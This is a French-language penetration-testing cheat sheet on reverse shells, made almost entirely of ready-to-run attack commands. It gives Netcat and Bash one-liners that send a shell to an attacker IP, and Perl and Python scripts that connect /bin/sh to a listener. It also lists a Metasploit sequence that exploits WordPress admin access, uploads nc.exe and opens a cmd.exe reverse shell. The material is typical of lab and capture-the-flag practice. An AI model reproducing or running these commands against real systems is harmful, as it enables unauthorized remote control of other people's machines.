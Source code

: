 # Shell et reverse shell

**Reverse shell Netcat**

```bash
root@kali:~# nc -lnvp 12345
cible@debian:~$ nc 192.168.56.123 -e /bin/bash
```

**Reverse shell Bash**

```bash
root@kali:~# nc -lnvp 12345
cible@debian:~$ bash -i >& /dev/tcp/192.168.56.123/12345 0>&1
```

**Reverse shell Perl**

Script perl sur machine cible :

```perl
use Socket;
$i="192.168.56.123";
$p=4444;
socket(S,PF_INET,SOCK_STREAM,getprotobyname ("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))) {open(STDIN,">&S");
open(STDOUT,">&S"); open (STDERR, ">&S"); exec ("/bin/sh -i");};
```

Lancer un listener sur attaquant :

```bash
nc -lnvp 4444
```

Lancer script perl sur cible :

```bash
perl reverse.perl
```

**Reverse shell Python**

Script python sur machine cible :

```python
import socket,subprocess,os;
s=socket.socket (socket.AF_INET, socket.SOCK_STREAM);
s.connect (("192.168.56.123", 4444));
os.dup2 (s.fileno(),0);
os.dup2 (s.fileno(),1);
os.dup2 (s.fileno(), 2);
p=subprocess.call (["/bin/sh","-i"]);
```

Lancer un listener sur attaquant :

```bash
nc -lnvp 4444
```

Lancer script python sur cible :

```bash
python reverse.py
```

**Passer à un shell bash si shell pourri**

```bash
SHELL=/bin/bash script -q /dev/null
```

**Reverse-shell Wordpress**  

En cas d'accès à un wp-admin, possibilité de faire un reverse shell avec Metasploit :

```bash
msfconsole
msf > use exploit/unix/webapp/wp_admin_shell_upload
msf > set PASSWORD P@s5w0rd!
msf > set USERNAME admin
msf > set TARGETURI /wordpress
msf > set RHOSTS 10.10.10.29
msf > run
```

Puis avoir un shell propre :

```
meterpreter> lcd /home/username/Downloads
meterpreter> cd C:/inetpub/wwwroot/wordpress/wp-content/uploads
meterpreter > upload /usr/share/windows-binaries/nc.exe
```

En même temps, ouvrir un listener netcat dans un autre terminal : ```nc -lnvp 1234```.

```
meterpreter> execute -f nc.exe -a "-e cmd.exe 10.10.14.2 1234"
```

Un shell est accessible depuis le listener Netcat.
